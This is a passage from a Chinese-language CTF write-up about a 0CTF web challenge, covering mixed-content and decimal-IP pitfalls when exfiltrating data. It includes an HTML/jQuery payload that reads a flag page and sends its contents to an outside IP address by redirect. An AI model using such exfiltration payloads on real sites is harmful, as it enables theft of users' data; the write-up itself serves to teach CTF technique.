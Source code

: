 此时，可以正确加载。

![cosp](http://momomoxiaoxi.com/img/post/0ctf/cosp.png)

#### HTTP的坑

这个前面讲过，在比赛期间遇到的，HTTPS src加载HTTP的问题。

```
(index):15 Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/'. This request has been blocked; the content must be served over HTTPS.
getinfo @ (index):15
xmlhttp.onreadystatechange @ (index):24
2(index):15 Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/Only%20ip%20from%20this%20host%20is%20allowed'. This request has been blocked; the content must be served over HTTPS.
getinfo @ (index):15
xmlhttp.onreadystatechange @ (index):24
```

chrome显示我们从https跳到了http阻拦了（实质就是https的页面src http，是不允许的，这也是前面适用 `\\`的一个需求，这个前面讲的思路中讲过！）。前文讲过直接改成https会导致看不到明文数据，所以只能是HTTP。

所以，修改成location.href的格式

```html
<html>
<head>
<meta http-equiv="Access-Control-Allow-Origin" content="*">
</head>


<script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
<script type="text/javascript">
$.get("https://router.vip/flag.php",function(data){
//alert(data);
        location.href="http://104.224.169.90:6789/"+escape(data);
});
</script>


</html>
```

此时，能在VPS上看到数据。



#### IP的坑

在看[Melody](http://www.melodia.pw/?p=889#comment-257411)博客时，发现他说10进制有一个坑。

> 这里有一个10进制的坑，就是当有10进制ip的时候，如果用`<link rel=import href=\\1759553882`这种格式，会被chrome干掉，打开 console 看到报错是 不安全的响应，当前页面是 https，而我的服务器虽然开启了 https，但是因为证书是不和 ip 绑定而是和域名绑定的，所以我需要使用域名才能绕过这个限制。

